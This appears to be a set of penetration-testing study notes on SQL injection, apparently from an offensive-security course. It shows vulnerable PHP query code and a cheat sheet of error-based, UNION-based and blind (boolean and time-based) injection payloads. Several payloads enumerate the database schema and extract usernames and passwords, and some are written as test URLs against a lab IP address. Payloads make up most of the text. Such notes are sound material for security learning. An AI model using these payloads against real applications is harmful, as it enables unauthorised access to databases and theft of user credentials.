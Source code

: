### Identification - Error Based Payloads

```
$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";
```
offsec' OR 1=1 -- //
' or 1=1 in (select @@version) -- // union in mssql
' OR 1=1 in (SELECT * FROM users) -- //
' or 1=1 in (SELECT password FROM users) -- //

### Union Based Payloads

- The injected UNION query has to include the same number of columns as the original query.
- The data types need to be compatible between each column.
```
$query = "SELECT * from customers WHERE name LIKE '".$_POST["search_input"]."%'";
```

- first count number of columns
' ORDER BY 1-- //
- Increasing the column value by one each time, we'll discover that the table has five columns, since ordering by column six returns an error.
%' UNION SELECT database(), user(), @@version, null, null -- //
' UNION SELECT null, null, database(), user(), @@version  -- //
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
' UNION SELECT null, username, password, description, null FROM users -- //

### Blind SQL Injection

- blind SQL injections describe scenarios in which database responses are never returned and behavior is inferred using either boolean- or time-based logic.
- Test for boolean based SQLi
http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //
- Time based SQLi
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //

